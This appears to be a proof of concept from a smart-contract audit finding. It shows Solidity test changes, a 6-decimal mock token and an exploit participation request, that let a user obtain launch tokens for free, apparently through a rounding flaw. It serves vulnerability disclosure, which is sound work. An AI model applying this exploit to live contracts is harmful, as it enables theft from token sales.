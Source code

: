 ### PoC

We are showing how a user can participate to get a `tokenAmount` for free.

First, make these changes in `LaunchTestBase.t.sol`

- give `6` decimals to the MockERC20 (to simulate USDC)
```diff
contract MockERC20 is ERC20 {
    constructor() ERC20("Mock Token", "MTK") {
        _mint(msg.sender, 1000000 * 10 ** 18);
    }
+    function decimals() public view override(ERC20) returns (uint8) {
 +       return 6;
  +  }
}

```

And add these two functions
```solidity
function _setupLaunchGroupWithStatusFlexible(bytes32 launchGroupId, LaunchGroupStatus status)
        internal
        returns (LaunchGroupSettings memory)
    {
        CurrencyConfig memory currencyConfig =
            CurrencyConfig({tokenPriceBps: 1 * 10 ** currency.decimals(), isEnabled: true});
        LaunchGroupSettings memory settings = LaunchGroupSettings({
            finalizesAtParticipation: false,
            startsAt: block.timestamp,
            endsAt: block.timestamp + 1 days,
            maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals(),
            minTokenAmountPerUser: 1,
            maxTokenAmountPerUser: type(uint256).max,
            status: status
        });
        vm.startPrank(manager);
        launch.createLaunchGroup(launchGroupId, address(currency), currencyConfig, settings);
        vm.stopPrank();
        return settings;
    }
...
function _createParticipationRequestExploit() internal view returns (ParticipationRequest memory) {
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 9 * 10 ** 11,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
```
